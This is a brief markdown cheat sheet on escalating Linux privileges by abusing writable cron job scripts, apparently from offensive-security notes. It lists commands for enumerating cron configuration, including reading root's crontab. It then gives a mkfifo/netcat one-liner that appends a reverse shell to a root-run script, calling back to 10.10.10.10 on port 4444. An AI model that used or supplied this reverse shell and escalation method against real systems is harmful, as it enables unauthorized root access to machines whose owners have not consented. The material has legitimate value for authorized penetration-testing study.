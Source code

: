 # Cronjob

## Overview

* with privileges running script that are editable for other users
* look for anything that is owned by privileged user but writable for you

```bash
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

## One Liner to Place into Root Priv'd Cronjob Script for Shell

```bash
# must be able to write to a script that runs as root 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f" >> script.sh
```
